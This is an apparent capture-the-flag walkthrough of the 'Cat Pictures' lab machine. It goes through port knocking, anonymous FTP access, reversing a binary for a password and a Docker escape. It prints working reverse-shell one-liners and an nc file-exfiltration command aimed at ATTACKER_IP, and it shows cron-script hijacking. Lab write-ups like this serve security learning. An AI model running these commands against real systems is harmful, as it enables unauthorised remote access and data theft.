 ```yaml
---
title: "Cat Pictures"
tags:
  - Easy
  - Linux
  - nmap
  - Port Knocking
  - ftp
  - Reverse Engineering
  - docker
---
```


| Difficulty |
| ---------- |
|    Easy    |

---

### [ Flag 1 ]

As usual, let's run an `nmap` scan on the target to enumerate the services that it's running.

```
sudo nmap -sC -sV -vv -T4 10.10.21.0
```

From the results, we find out that there are 3 open ports. There are also 2 ports which seem to be hidden behind a firewall.

```
21/tcp   filtered ftp
22/tcp   open     ssh
2375/tcp filtered docker
4420/tcp open     nvm-express?
8080/tcp open http-proxy
```

Looks like we have access to a SSH server, a HTTP Web server and an unknown service running on port 4420. The FTP server is currently inaccessible by us. There is also a docker service running on port 2375.

Let's take a look at the HTTP Web server:

![screenshot1](../assets/images/cat_pictures/screenshot1.png)

We have a forum page that is built on **phpBB**. Before we do our happy-path enumeration, let's run a `gobuster` directory scan to see if we can find any hidden directories:

```
gobuster dir -u http://10.10.21.0:8080/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt -t 50
```

I let the scan run for awhile, and it did find many different directories and files, but they were all ultimately of no use to us. 

Let's now check out the post on the webpage:

![screenshot2](../assets/images/cat_pictures/screenshot2.png)

We have a post titled 'Post cat pictures here!'. We also have an interesting message: 

`Knock knock! Magic numbers: 1111, 2222, 3333, 4444`

Hmmmm.... '**Knock knock**' and numbers that look like port numbers.... Could this be a **port knocking** sequence?

---

*Port Knocking is a method of externally opening ports on a firewall by generating a connection attempt on a set of prespecified closed ports. Once a correct sequence of connection attempts is received, the firewall rules are dynamically modified to allow the host which sent the connection attempts to connect over specific port(s).*

---

Perhaps if we were to visit these ports in sequence, we will be able to access the two services that are currently hidden behind the firewall! Let's try it out by visiting these ports in order:

```
telnet 10.10.21.0 1111
telnet 10.10.21.0 2222
telnet 10.10.21.0 3333
telnet 10.10.21.0 4444
```

Once we are done, we can run an nmap scan on the target again:

![screenshot3](../assets/images/cat_pictures/screenshot3.png)

Nice! Access to the **FTP** server has been unlocked. 

From the nmap scan, we also know that the FTP server has **anonymous login** enabled. This means that we can log into it without supplying a password. Let's login and grab the '**note.txt**' file inside:

![screenshot4](../assets/images/cat_pictures/screenshot4.png)

**Contents of note.txt:**

![screenshot5](../assets/images/cat_pictures/screenshot5.png)

Nice, we now have a password - **sardinethecat**

The unknown service running on port **4420** turned out to be an internal shell service. Let's log into it with our newfound password:

```
nc 10.10.21.0 4420
```

![screenshot6](../assets/images/cat_pictures/screenshot6.png)

And we're in! 

The first thing that I noticed was that the machine was very limited in terms of the commands that it could run. It couldn't run basic commands like `cd`, `whoami` and many others.  In fact, if we look at the **/bin** directory, we can see that there are only a handful of programs that are installed.

![screenshot7](../assets/images/cat_pictures/screenshot7.png)

With that in mind, let's take a look around.

![screenshot8](../assets/images/cat_pictures/screenshot8.png)

I found a binary called **runme** in the home directory of the **catlover** user. Let's try to run it.

![screenshot9](../assets/images/cat_pictures/screenshot9.png)

Welp, looks like we need to find a way to upgrade our shell. Let's try opening a reverse shell back into our machine.

I tried a few reverse shell payloads from **PayloadsAllTheThings** (https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md), before finding one that worked:

``` 
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ATTACKER_IP PORT >/tmp/f
```

![screenshot10](../assets/images/cat_pictures/screenshot10.png)

And we're in yet again! Now we can run the `runme` binary:

![screenshot11](../assets/images/cat_pictures/screenshot11.png)

We need another password. Unfortunately, '**sardinethecat**' did not work.

My next thought was to download the binary onto my local machine so that I could analyze it. We can use `nc` (as it is installed on the target machine) and some basic piping to do so:

```
// on local machine
nc -lvnp 5555 > runme

// on target machine
nc ATTACKER_IP PORT < /home/catlover/runme
```

With the binary now on my local machine, I passed it to [Binary Ninja](https://cloud.binary.ninja/) to reverse engineer the code.

![screenshot12](../assets/images/cat_pictures/screenshot12.png)

Once the reverse engineering is complete, I looked at the `main()` function. As we can see, the password is actually exposed in the code - **rebecca**

Let's go back into the target machine and run `runme` again:

![screenshot13](../assets/images/cat_pictures/screenshot13.png)

We now have a **private ssh key** in catlover's home directory:

![screenshot14](../assets/images/cat_pictures/screenshot14.png)

We can simply cat out the contents of the key, copy it over to a file on our local machine, and use it to log into SSH! *(make sure permissions of the key is either 400 or 600)*

![screenshot15](../assets/images/cat_pictures/screenshot15.png)

Great, we are now logged in as the **root** user!

![screenshot16](../assets/images/cat_pictures/screenshot16.png)

We can grab the first flag in the **/root** directory.

---

### [ Flag 2 ]

It seem like the flag that we found is not actually the final root flag. I tried using the `find` command to search for the other flag:

```
find / -iname '*flag*' 2>/dev/null
```

However, I was unable to find flag 2.

Remember that `docker` is running on port 2375? Perhaps we are currently in a docker container? We can verify this by looking for a **.dockerenv** file in the root ('/') directory.

![screenshot17](../assets/images/cat_pictures/screenshot17.png)

The file is indeed present, which confirms that we are in a docker container! Now we need to find a way to break out of the container. From past experiences, this is normally done through a script that is run as a **cronjob** by the root user outside of the container. Let's look around the machine to see if we can find such a script.

One place I looked was the **.bash_history** file:

![screenshot18](../assets/images/cat_pictures/screenshot18.png)

There's an interesting script called **clean.sh** located in **/opt/clean**. Let's check it out.

![screenshot19](../assets/images/cat_pictures/screenshot19.png)

Seems like the script is a cleaner script that removes all files in the **/tmp** directory. It would make sense for such a script to be run as a cronjob, so perhaps this is our ticket out of the docker container.

We also have write permissions to the script, so let's try to replace it with a reverse shell script:

```
echo '/bin/bash -l > /dev/tcp/ATTACKER_IP/PORT 0<&1 2>&1' > clean.sh
```

![screenshot20](../assets/images/cat_pictures/screenshot20.png)

After a few minutes, the reverse shell was opened and I was logged into the actual target machine as the root user.

![screenshot21](../assets/images/cat_pictures/screenshot21.png)

The final flag can be found in the **/root** directory.
